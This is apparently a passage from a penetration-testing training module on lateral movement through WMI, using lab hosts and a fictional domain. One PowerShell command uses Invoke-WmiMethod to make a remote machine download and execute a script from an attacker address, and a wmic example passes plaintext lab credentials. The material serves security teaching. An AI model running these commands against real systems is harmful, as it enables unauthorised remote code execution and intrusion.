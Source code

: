 ```powershell
PS C:\Tools> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" -ComputerName 172.20.0.52

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ProcessId        : 8084
ReturnValue      : 0
PSComputerName   :

```

**Note:** The WMIC utility is deprecated as of Windows 10, version 21H1, and the 21H1 semi-annual channel release of Windows Server. This utility has been replaced by Windows PowerShell for WMI tasks. For more details, refer to [Chapter 7 - Working with WMI](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi). Note that this deprecation only affects the WMIC utility itself; Windows Management Instrumentation (WMI) remains unaffected. For further information, see the list of [Windows 10 features no longer under development](https://learn.microsoft.com/en-us/windows/deployment/planning/windows-10-deprecated-features).

## Lateral Movement From Linux

Interacting with Windows Management Instrumentation (WMI) from a Linux system can be accomplished using various tools and libraries that support the WMI protocol. Below are some commonly used tools for this purpose. `wmic` is a command-line tool that allows you to interact with WMI from Linux. It provides a straightforward way to query and manage Windows systems. To install `wmic`, you need to install the `wmi-client` package. On Debian-based systems, you can install it using the following commands:

```shell
sudo apt-get install wmi-client
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  wmi-client
0 upgraded, 1 newly installed, 0 to remove and 73 not upgraded.
...SNIP...

```

Once installed, we can use `wmic` to run queries against a remote Windows machine. Here's an example of querying the operating system details:

```shell
wmic -U inlanefreight.local/helen%RedRiot88 //172.20.0.52 "SELECT Caption, CSDVersion, OSArchitecture, Version FROM Win32_OperatingSystem"
CLASS: Win32_OperatingSystem
Caption|CSDVersion|OSArchitecture|Version
Microsoft Windows Server 2019 Standard|(null)|64-bit|10.0.17763

```
